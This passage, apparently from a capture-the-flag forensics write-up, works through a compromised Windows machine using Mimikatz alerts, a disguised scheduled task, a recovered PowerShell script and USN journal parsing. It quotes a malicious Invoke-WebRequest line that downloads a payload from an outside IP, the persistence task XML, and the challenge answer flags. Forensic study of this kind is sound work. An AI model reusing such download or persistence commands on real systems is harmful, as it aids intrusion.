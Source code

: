 Also from the Top high alerts we can see that there is a presence of Mimikatz which is a commonly used tool for extracting sensitive information and that is for `Q1{mimikatz.exe}`. At first I wasn't sure if this was the correct answer since there is a relative time gap between the presence of Mimikatz (2024-05-27 12:04:03) and the modification of RDP registry key (2024-05-30 14:28:43) as I tried to make things related to each other, but couldn't find any other process.

The next question ask about persistence technique and script, a common place to check is C:\Windows\System32\Tasks and you will find a task named as a legit scheduled task Microsoft_Update, if you opened it in text editor you see
```
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.4" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>2024-05-30T04:36:36.1733171</Date>
    <Author>DESKTOP-EIN36FN\The_Lab</Author>
    <URI>\Microsoft_Update</URI>
  </RegistrationInfo>
  <Triggers>
    <BootTrigger>
      <Enabled>true</Enabled>
    </BootTrigger>
  </Triggers>
  <Settings>
    <Priority>7</Priority>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>C:\Users\The_Lab\Downloads\totheroots.ps1</Command>
    </Exec>
  </Actions>
</Task>
```

I deleted a couple of lines of it but we can see it execute a script called totheroots.ps1 `Q4{totheroots.ps1}` from Downloads folder which is unrelated to Microsoft_Update. Checking Mitre framework for the ID of Scheduled Task/Job at Persistence section its T1053 `Q3{T1053}`

Now we need to get what file did the script try to download, I though since the script is probably small in size its data will be resident in the its MFT record, but the file itself wasn't in the MFT. I kept searching and found a deleted file in the Recyclebin, when I checked the file that start with $I (Info Metadata) it showed it belonged to totheroots.ps1. The actual content is in the file that start with $R and it was base64 encoded, decoding it we get:
```
Invoke-WebRequest http:\\21.36.124.5\This_Is_Malicious\craaaack.zip
```
So the answer for Q5 is `Q5{craaaack.zip}`. You may get the answer also from the Edge History sqlite db in urls table
![](/assets/images/posts/2024-06-27-icmtcQal/sqlite db.png)

For the last two Qs getting the filename before its renamed and the other filename in the same directory we need to process the $J stream is part of the $UsnJrnl. For this task I'll use EricZimmerman MFTECmd tool which require providing both the $J and $MFT in order to get the journaling of the files
```
$ ~/tools/MFTECmd/MFTECmd.exe -f ./C/\$Extend/\$J -m ./C/\$MFT --json . --jsonf mft.json
```
Then I'll just open the file in text editor and search for "All_Is_Fine.txt", notice a line before the first match line there is a file with the same EntryNumber, and in UpdateReasons there is RenameOldName and RenameNewName
